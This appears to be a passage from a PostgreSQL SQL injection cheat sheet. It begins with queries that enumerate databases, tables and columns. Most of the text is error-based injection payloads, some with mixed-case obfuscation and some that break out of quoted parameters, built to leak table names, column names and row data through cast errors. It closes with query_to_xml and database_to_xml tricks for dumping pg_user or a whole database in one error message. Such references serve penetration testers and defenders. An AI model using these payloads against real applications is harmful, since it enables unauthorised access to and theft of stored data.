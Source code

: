 ```sql
SELECT current_database()
```

## PostgreSQL List Database

```sql
SELECT datname FROM pg_database
```

## PostgreSQL List Tables

```sql
SELECT table_name FROM information_schema.tables
```

## PostgreSQL List Columns

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL Error Based

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML helpers

```sql
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```sql
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```
